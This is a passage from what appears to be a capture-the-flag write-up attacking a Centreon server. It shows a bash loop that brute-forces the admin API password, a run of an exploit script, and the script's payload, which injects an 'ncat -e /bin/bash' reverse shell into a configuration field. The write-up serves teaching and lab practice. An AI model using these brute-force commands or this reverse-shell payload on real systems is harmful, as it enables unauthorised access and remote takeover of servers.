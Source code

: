 ```

root@kali# curl 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=admin"
"Bad credentials"

```

I can do a similar bash loop, and this time it finds the password in less than a minute:

```

root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do curl -s 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=${pass}" | grep authToken && echo $pass && break; done
{"authToken":"UZVQydKGAqV5v7YfpfHNDepxax\/QiCGW5iiqGOw0iX8="}
password1

real    0m55.771s
user    0m3.379s
sys     0m2.262s

```

### Exploit Fails

Armed with the creds, I opened a `nc` listener and ran the exploit script:

```

root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 77dc6f59344b11c223b864e612c90cac
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : e76df3722b39e59e312024617c21b801
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

It seemed to work fine, but I didn’t get a shell.

I opened the script back up, and took a look at the section where the payload is sent:

```

    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
```